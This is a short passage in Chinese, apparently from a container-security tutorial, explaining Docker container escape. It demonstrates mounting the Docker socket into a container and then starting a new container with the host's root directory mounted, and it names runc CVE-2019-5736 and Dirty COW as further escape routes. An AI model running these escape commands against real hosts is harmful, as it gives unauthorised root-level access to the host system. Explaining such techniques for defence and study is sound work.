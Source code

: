 下面通过一个小实验来展示这种逃逸可能性：

1.准备dockertest镜像，该镜像是基于ubuntu镜像安装docker，通过docker commit生成

2.创建一个容器并挂载/var/run/docker.sock

docker run -itd --name with_docker_sock -v /var/run/docker.sock:/var/run/docker.sock dockertest

3.接着使用该客户端通过Docker Socket与Docker守护进程通信，发送命令创建并运行一个新的容器，将宿主机的根目录挂载到新创建的容器内部；

docker exec -it <CONTAINER_ID> /bin/bash

docker ps

docker run -it -v /:/host dockertest /bin/bash

<img src="./BPF-11.jpg">

❏  相关程序漏洞导致容器逃逸，例如：runc漏洞CVE-2019-5736 导致容器逃逸。

❏  内核漏洞导致容器逃逸，例如：Copy_on_Write脏牛漏洞，向vDSO内写入shellcode并劫持正常函数的调用过程，导致容器逃逸。

 

下面是2019年排名最高的容器安全事故列表：
